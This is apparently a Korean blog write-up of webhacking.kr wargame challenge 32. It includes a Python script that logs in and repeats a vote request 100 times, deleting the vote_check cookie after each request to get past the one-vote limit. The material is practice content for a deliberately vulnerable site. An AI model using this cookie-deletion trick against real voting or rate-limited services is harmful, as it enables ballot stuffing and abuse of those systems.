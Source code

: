 ```yaml
---
title: "[webhacking.kr] 32번 문제 풀이[cookie]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - python
toc: true
toc_sticky: true
toc_label: "32번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 32번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152643800-937caf26-7efe-4f9c-bc91-100d0ba4705d.png)


# 문제 풀이
  자신의 아이디를 100번 클릭하면 됩니다. 이때, 한번 클릭하면 cookie 값으로 vote_check 값이 생겨서 한번 더 클릭하면 다음과 같이 막힙니다.

  ![image](https://user-images.githubusercontent.com/33647663/152643837-eefdf066-b800-4992-b212-87ddcf3c3acb.png)

  ![image](https://user-images.githubusercontent.com/33647663/152643860-3bf33095-c0d0-4b0c-a4cc-ae83f92e05da.png)

  파이썬 코드를 이용해서 100번 반복 요청을 보내고, 매 요청 뒤에 vote_check 쿠키를 삭제하도록 했습니다.

  ```python
  import requests
  def login(session):
      global datas 
      datas = {}
      print(" ------------ login ----------------------")
      datas['id'] = input("webhacking.kr id: ")
      datas['pw'] = input("webhacking.kr pw: ")
      response = session.post("https://webhacking.kr/login.php?login",data=datas)
      if( "<script>location.href='/';</script>" in response.text):
          print("login success : ",datas['id'])
      else:
          print("login Fail")
          exit(0)

  def main():
      session = requests.Session()
      login(session)
      for i in range(100):
          response = session.get("https://webhacking.kr/challenge/code-5/?hit="+datas['id'])
          session.cookies.__delitem__("vote_check")
  

  if __name__=='__main__':
      main()
  ```

  위의 코드를 실행하고 id, pw를 입력하면 풀립니다.

  


